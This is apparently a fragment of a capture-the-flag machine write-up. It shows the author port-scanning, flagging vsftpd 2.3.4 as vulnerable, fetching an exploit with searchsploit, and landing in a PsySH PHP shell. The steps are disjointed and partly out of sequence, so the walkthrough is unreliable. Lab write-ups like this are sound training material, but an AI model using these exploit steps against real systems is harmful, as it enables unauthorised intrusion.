 The HTTPS server returns a certificate error, so it's time to check again the ports. FTP doesn't allow anonymous login, so let's check the other port.
After checking what the heck is `lm-x` it looks like it's a certificate 


```
test test@test.com
```

It definitely looks like we have to create a certificate by ourselves:
https://verifalia.com/help/sub-accounts/how-to-create-self-signed-client-certificate-for-tls-mutual-authentication


After some time, let's get back to the machine!

I definitely did not find anything interesting over HTTP/S servers, so let's get back to the port scanning and check for some services and versions:

- 21/tcp  open  ftp      vsftpd 2.3.4 -> Vulnerable! 
```bash
searchsploit "vsftpd 2.3.4"
searchsploit -m unix/remote/49757.py
```
And there we go with some exploitable service!

Once inside:
```
?
  help       Show a list of commands. Type `help [foo]` for information about [foo].      Aliases: ?
  ls         List local, instance or class variables, methods and constants.              Aliases: list, dir
  dump       Dump an object or primitive.
  doc        Read the documentation for an object, class, constant, method or property.   Aliases: rtfm, man
  show       Show the code for an object, class, constant, method or property.
  wtf        Show the backtrace of the most recent exception.                             Aliases: last-exception, wtf?
  whereami   Show where you are in the code.
  throw-up   Throw an exception or error out of the Psy Shell.
  timeit     Profiles with a timer.
  trace      Show the current call stack.
  buffer     Show (or clear) the contents of the code input buffer.                       Aliases: buf
  clear      Clear the Psy Shell screen.
  edit       Open an external editor. Afterwards, get produced code in input buffer.
  sudo       Evaluate PHP code, bypassing visibility restrictions.
  history    Show the Psy Shell history.                                                  Aliases: hist
  exit       End the current session and return to caller.                                Aliases: quit, q
whereami

From phar:///usr/bin/psysh/src/functions.php:307:

    302| $config['colorMode'] = Configuration::COLOR_MODE_FORCED;
    303| } elseif ($input->getOption('no-color')) {
    304| $config['colorMode'] = Configuration::COLOR_MODE_DISABLED;
    305| }
    306|
  > 307| $shell = new Shell(new Configuration($config));
    308|
    309|
    310|  if ($usageException !== null || $input->getOption('help')) {
    311| if ($usageException !== null) {
    312| echo $usageException->getMessage() . PHP_EOL . PHP_EOL;

```
